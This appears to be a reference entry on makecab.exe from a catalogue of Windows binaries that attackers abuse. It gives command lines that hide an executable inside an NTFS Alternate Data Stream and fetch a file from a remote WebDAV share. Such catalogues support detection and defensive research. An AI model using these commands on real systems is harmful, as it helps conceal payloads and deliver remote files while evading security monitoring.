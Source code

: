 ## Makecab.exe
* Functions: Package, Add ADS, Download
```

makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.

makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
Compresses the target file and stores it in the target file.

makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
```
   
* Resources:   
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
   
* Full path:   
  * c:\windows\system32\makecab.exe
  * c:\windows\sysWOW64\makecab.exe
   
* Notes: Thanks to Oddvar Moe - @oddvarmoe  
   
